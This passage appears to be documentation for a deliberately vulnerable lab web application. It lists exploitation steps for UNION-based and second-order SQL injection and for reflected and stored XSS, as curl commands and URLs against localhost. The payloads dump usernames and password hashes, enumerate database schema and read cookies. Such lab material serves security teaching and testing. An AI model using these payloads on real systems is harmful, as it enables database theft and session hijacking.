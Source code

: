 #### 1.4 UNION-based SQL Injection
**Location:** `/api/advsearch/union`
**Parameter:** `orderBy`
**Exploitation:**
```bash
# Basic UNION injection
curl "http://localhost:3020/api/advsearch/union?category=test&orderBy=1 UNION SELECT id,username,password_md5 FROM users--"

# Information schema enumeration
curl "http://localhost:3020/api/advsearch/union?category=test&orderBy=1 UNION SELECT 1,table_name,column_name FROM information_schema.columns--"
```

#### 1.5 Second-order SQL Injection
**Location:** `/api/profile/user/{userId}` and `/api/advsearch/history`
**Exploitation:**
```bash
# Store malicious payload
curl -X POST "http://localhost:3020/api/advsearch/history" \
  -H "Content-Type: application/json" \
  -d '{"term":"test'\'' OR 1=1--","description":"malicious"}'

# Trigger second-order injection later
curl "http://localhost:3020/api/profile/user/1"
```

### 2. Cross-Site Scripting (XSS) Vulnerabilities

#### 2.1 Reflected XSS (Multiple Contexts)
**Location:** `/api/labs/xss/reflected/easy`
**Exploitation:**
```html
# Basic XSS
http://localhost:3020/api/labs/xss/reflected/easy?q=<script>alert('XSS')</script>

# SVG-based XSS
http://localhost:3020/api/labs/xss/reflected/easy?q=<svg onload=alert('XSS')>

# Event handler XSS
http://localhost:3020/api/labs/xss/reflected/easy?q=<img src=x onerror=alert('XSS')>
```

#### 2.2 Stored XSS
**Location:** `/api/labs/xss/stored/{level}/post`
**Exploitation:**
```bash
# Store XSS payload
curl -X POST "http://localhost:3020/api/labs/xss/stored/easy/post" \
  -H "Content-Type: application/json" \
  -d '{"content":"<script>alert(document.cookie)</script>"}'

# Retrieve and trigger
curl "http://localhost:3020/api/labs/xss/stored/easy/list"
```
